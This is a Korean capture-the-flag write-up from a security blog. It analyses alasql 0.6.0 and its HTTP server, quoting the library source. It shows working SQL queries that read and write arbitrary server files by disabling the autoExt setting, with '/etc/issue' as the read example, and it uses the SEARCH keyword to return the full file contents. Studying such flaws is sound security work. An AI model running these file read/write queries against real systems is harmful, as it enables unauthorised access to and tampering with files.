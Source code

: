 ```yaml
---
layout: post
title:  "AlaSQL"
author: "choiys"
comments: true
tags: [write-up, web]
---
```


라온화이트햇 핵심연구팀 최용선([hcy3bkj@gmail.com](mailto:hcy3bkj@gmail.com))


## 0. 개요

dreamhack(https://dreamhack.io)의 alasql 문제 풀이 과정 중 분석한 alasql 문제의 취약점에 대한 문서입니다. 현재 알아낸 취약점은 file read/write 입니다.

## 1. AlaSQL

AlaSQL은 자바스크립트를 이용하여 Web Browser, Node.js에서 동작하도록 구현한 NoSQL의 일종입니다. Excel, LocalStorage, IndexedDB에서 데이터를 import/export 할 수 있는 기능을 가지고 있습니다. 또한, mysql, oracle, sqlite 등의 traditional rdbms의 SQL 구문을 대부분 사용할 수 있습니다.

alasql 문제는 npm을 통해 설치할 수 있는 alasql@0.6.0을 문제 서버에서 그대로 사용하고 있습니다. 따라서 alasql 0.6.0 버전에 존재하는 취약점을 이용하여 /flag 파일을 실행시켜 플래그를 얻어내야합니다.

문제 서버에서는 /usr/local/lib/node_modules/alasql/bin/alaserver.js가 서비스되고 있습니다.

```java
#!/usr/bin/env node
//
// alaserver.js = Alasql Server
// Date: 25.11.2014
// (c) 2014, Andrey Gershun
//

var alasql = require('alasql');
var http = require('http');
var url = require('url');

var port = (process.argv[2] || 1337)|0;
if(!port) {
	throw new Error('Wrong port number '+process.argv[3]);
}

http.createServer(function (req, res) {
	var sql = decodeURI(url.parse(req.url).search).substr(1);
	var a = '';
	try {
		a = alasql(sql);
	} catch(err) {
		a = err.toString();
	};
  	res.writeHead(200, {'Content-Type': 'application/json'});
  	res.end(JSON.stringify(a));
}).listen(port, '127.0.0.1');

console.log('Server running at http://127.0.0.1:'+port+'/');
```

alaserver.js를 살펴보면 `decodeURI(url.parse(req.url).search).substr(1)` 를 이용하여 쿼리스트링을 받고, alasql 서비스에 파라미터로 전달합니다.

alasql은 Cordova, Meteor, Node 베이스에서 돌아갈 경우 alasql.fs.js, 그 외는 alasql.js를 호출합니다. 두 서비스는 서버 타입에 따라 접근 방식만 다르고, 기능상 동일합니다.

alasql.js에서 쿼리스트링을 SQL 구문으로 받아 자체 parser를 통해 처리한 후, 결과를 다음과 같이 json으로 반환해줍니다.

![/assets/bca819bd-cd10-4ab9-b157-f2326d5fc636/bc2cca8c-07af-4d8a-b729-5484492b2abb.png](/assets/bca819bd-cd10-4ab9-b157-f2326d5fc636/bc2cca8c-07af-4d8a-b729-5484492b2abb.png)

## 2. 취약점

alasql에서는 `mysql`의 `load_file`, `into outfile` 과 유사한 기능이 존재합니다.

```jsx
// ...

alasql.into.TXT = function(filename, opts, data, columns, cb) {
	// If columns is empty
	if (columns.length === 0 && data.length > 0) {
		columns = Object.keys(data[0]).map(function(columnid) {
			return {columnid: columnid};
		});
	}
	// If one parameter
	if (typeof filename === 'object') {
		opts = filename;
		filename = undefined;
	}

	var res = data.length;
	var s = '';
	if (data.length > 0) {
		var key = columns[0].columnid;
		s += data
			.map(function(d) {
				return d[key];
			})
			.join('\n');
	}

	//	 } else {
	//		if(utils.isNode) {
	//			process.stdout.write(s);
	//		} else {

	//		};
	//	 }
	filename = alasql.utils.autoExtFilename(filename, 'txt', opts);
	res = alasql.utils.saveFile(filename, s);
	if (cb) {
		res = cb(res);
	}
	return res;
};

// ...

alasql.from.TXT = function(filename, opts, cb, idx, query) {
	var res;
	filename = alasql.utils.autoExtFilename(filename, 'txt', opts);
	alasql.utils.loadFile(filename, !!cb, function(data) {
		res = data.split(/\r?\n/);

		// Remove last line if empty
		if (res[res.length - 1] === '') {
			res.pop();
		}
		for (var i = 0, ilen = res.length; i < ilen; i++) {
			// Please avoid '===' here
			if (res[i] == +res[i]) {
				// eslint:ignore
				// jshint ignore:line
				res[i] = +res[i];
			}
			res[i] = [res[i]];
		}
		if (cb) {
			res = cb(res, idx, query);
		}
	});
	return res;
};

// ...

utils.autoExtFilename = function(filename, ext, config) {
	config = config || {};
	if (
		typeof filename !== 'string' ||
		filename.match(/^[A-z]+:\/\/|\n|\..{2,4}$/) ||
		config.autoExt === 0 ||
		config.autoExt === false
	) {
		return filename;
	}
	return filename + '.' + ext;
};

// ...
```

`alasql.into.TXT` 와 `alasql.from.TXT` 를 이용하여 권한 있는 파일에 대해 file write/read를 할 수 있습니다.

하지만 `autoExtFilename` 함수에서 자동으로 확장자가 붙기 때문에 이를 걷어내기 위해 `config.autoExt` 에 0을 넣어줍니다.

따라서 file read/write 쿼리는 아래와 같습니다.

```jsx
select * from TXT('/etc/issue', {'autoExt': 0})
select * into TXT('/tmp/testfile', {'autoExt': 0}) from TXT('/etc/issue', {'autoExt': 0})
```

하지만 alasql의 select 서브쿼리 처리 루틴이 전체 파싱 → from절 파싱 형태이기에 TXT로 뽑아온 결과가 제대로 뽑혀 나오지 않았습니다.

```jsx
// ...

alasql.from.GEXF = function(filename, opts, cb, idx, query) {
	var res;
	alasql('SEARCH FROM XML(' + filename + ')', [], function(data) {
		res = data;

		if (cb) res = cb(res);
	});
	return res;
};

// ...
```

GEXF 함수에서 볼 수 있는 search 기능을 이용하면 에러 없이 전체 결과를 얻어낼 수 있습니다.

최종적인 file read/write 쿼리는 아래와 같습니다.

```jsx
search from TXT('/etc/issue', {'autoExt': 0})
select * into TXT('/tmp/testfile', {'autoExt': 0}) from TXT('/etc/issue', {'autoExt': 0})
```